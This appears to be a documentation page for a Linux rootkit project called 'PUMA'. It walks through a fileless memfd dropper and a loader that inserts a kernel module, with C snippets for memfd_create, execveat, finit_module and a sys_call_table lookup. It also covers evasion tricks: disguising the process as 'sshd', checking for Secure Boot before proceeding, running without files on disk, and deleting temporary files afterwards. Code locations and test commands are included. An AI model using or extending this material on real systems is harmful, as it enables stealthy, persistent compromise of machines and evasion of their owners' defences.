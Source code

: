 ```yaml
---
title: "Fileless Dropper & Rootkit Loader"
description: "Stages 1 & 2: in-memory payload staging and LKM insertion"
icon: "cloud_download"
date: "2025-05-11T18:15:00+01:00"
lastmod: "2025-05-11T18:15:00+01:00"
draft: false
toc: true
weight: 55
---
```


# Stage 1: Fileless Memfd Dropper

{{< alert context="info" text="We stage both loader and cron stub entirely in memory--no on-disk binaries." />}}

1. We call  
   ```c
   fd_loader = memfd_create("loader", MFD_CLOEXEC);
   fd_target = memfd_create("target", MFD_CLOEXEC);
   ```
   to get two anonymous file descriptors.
2. We `write()` our embedded ELF blobs into each fd.
3. We `fork()`:
   - **Child**: redirect stdout/stderr to `/dev/null`, then
     ```c
     execveat(fd_loader, NULL, argv_loader, envp, AT_EMPTY_PATH);
     ```
   - **Parent**: `waitpid()`, then
     ```c
     execveat(fd_target, NULL, argv_target, envp, AT_EMPTY_PATH);
     ```


`execveat(..., AT_EMPTY_PATH)` lets us execute a program by FD without any filename on disk.

---

# Stage 2: Environment-Aware Loader

{{< alert context="warning" text="We verify Secure Boot is off, extract the kernel image, resolve symbols, and then insert our LKM." />}}

1. We rename our process to "sshd" via  
   ```c
   prctl(PR_SET_NAME, "sshd", 0, 0, 0);
   ```
2. We scan `dmesg` for "Secure boot" strings. If found, we abort.
3. We drop a helper script `/tmp/loader.sh` that:
   - Uses `file` + `grep` to detect gzip/xz/bz2/lz4/zstd.
   - Runs `tail -c +<offset>` + the right decompressor → `/tmp/vmlinux`.
4. In `loader.c`, we open `/tmp/vmlinux` and call:
   ```c
   sys_call_table = (void **)kallsyms_lookup_name("sys_call_table");
   ```
5. We load our kernel module by creating another memfd for `puma.ko` and calling:
   ```c
   finit_module(fd_puma_ko, "", 0);
   ```
6. Finally, we remove `/tmp/loader.sh` and `/tmp/vmlinux`.

---

## Code Locations

- `rootkit/dropper/dropper.c`  
- `rootkit/loader/loader.c` & `rootkit/loader/loader.sh`

## Quick Test

```bash
./rootkit/dropper/cron
dmesg | grep "PUMA is compatible"
dmesg | grep "PUMA loaded"
```